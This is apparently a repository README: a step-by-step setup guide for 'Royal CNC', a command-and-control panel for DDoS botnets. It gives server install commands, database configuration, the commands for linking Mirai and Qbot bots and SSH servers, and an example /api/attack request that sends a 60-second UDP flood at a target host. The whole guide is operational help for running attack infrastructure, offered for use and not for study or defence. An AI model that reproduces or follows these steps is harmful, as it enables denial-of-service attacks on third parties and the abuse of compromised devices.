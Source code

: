 Royal CNC Setup Guide 🚀
Welcome to this detailed guide for setting up Royal CNC. Follow these steps to install and configure Royal CNC on an Ubuntu 22.04 server.

🖥️ Recommended Operating System
Preferred OS: Ubuntu 22.04
Specifications: 1 GB RAM, 2 cores (can be lower)
📋 Prerequisites
Before starting, update your packages and install the necessary software:



sudo apt-get update && sudo apt-get upgrade
sudo apt-get install php apache2 phpmyadmin mysql-server mysql-client
🔗 Link PHPMYADMIN to the Apache2 Directory
Create a symbolic link for PHPMYADMIN:



sudo ln -s /usr/share/phpmyadmin/ /var/www/html
🔑 Create a Password
Visit Password Generator.
Uncheck "Include Symbols".
Set the password length to 32.
Note your generated password.
🛠️ Configure MySQL
Run the secure MySQL installation:



mysql_secure_installation
Set a password without using the password validation plugin.
Answer Y to all options.
Connect to MySQL:



mysql -u root -p
Once connected, run the following commands to configure the user:

sql

CREATE USER 'royal'@'localhost' IDENTIFIED BY '<password>';
GRANT ALL PRIVILEGES ON *.* TO 'royal'@'localhost';
FLUSH PRIVILEGES;
📝 Edit the config.json File
Change the IP and port for server and cnc_server as needed.
Set the MySQL username to royal and the password you created.
Edit the webhook, image, and website sections in the Discord part.
💾 Import the Database
Go to http://<your_api_ip>/phpmyadmin.
Log in with the username royal and the password you chose.
Create a database called royalcnc.
Click "Import" on the top bar, then "Browse".
Navigate to the royalcnc.sql file and import it.
🛠️ Configure config.json
Fill in the config.json file with your license key, VPS IP, and methods to execute.

🚀 Launch RoyalCNC
Navigate to the RoyalCNC directory:



cd /path/to/RoyalCNC
chmod 777 *
./RoyalCNC
🌐 Connect via Telnet
Connect via Telnet using Putty with the IP of your VPS and the port defined in config.json.

🔗 Link Dedicated Servers
To link dedicated servers or VPS, use the command:



api sshadd
🤖 Link Qbot or Mirai Bots
To link Qbot or Mirai bots, use the following commands:



api qbotadd
api miraiadd
📊 API Management
To manage APIs and more, access the API manager with the command api ? in the terminal.

Funnel of Royal CNC API
Royal CNC builds an API on top of your linked APIs and servers to interact with methods more easily. The API has two main endpoints:

🚀 api/attack
This endpoint allows you to send an attack. Here is an example request:

http

https://your-ip:8081/api/attack?username=royal&key=royal&host=77.77.77.77&port=80&time=60&method=UDP
Other endpoints include /api/view_plan, /api/ongoing, /api/running, /api/userlist, /api/viewlogs, and more!

🗄️ Database Access
To access your database, use PHPMYADMIN via http://<your_api_ip>/phpmyadmin.

With this guide, you should be able to configure and start your Royal CNC efficiently. Be sure to follow each step carefully and check the configurations to ensure your system runs smoothly. Happy configuring! 🚀